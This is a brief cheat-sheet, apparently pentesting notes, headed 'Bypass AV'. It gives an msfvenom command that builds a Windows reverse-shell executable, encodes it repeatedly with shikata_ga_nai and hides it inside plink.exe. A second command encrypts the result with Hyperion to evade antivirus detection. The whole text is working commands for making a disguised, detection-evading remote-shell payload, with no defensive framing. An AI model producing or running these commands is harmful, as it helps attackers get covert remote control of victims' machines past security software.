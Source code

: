 # Bypass AV

### Encode & Embed payload in an executable file

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$VICTIM_IP LPORT=$VICTIM_PORT \
    -f exe -e x86/shikata_ga_nai -i 9 \
    -x /usr/share/windows-binaries/plink.exe \
    -o encoded_shell.exe 
```

### Hyperion \(PE encryption\)

```bash
wine hyperion.exe ../encoded_shell.exe ../crypted.exe
```



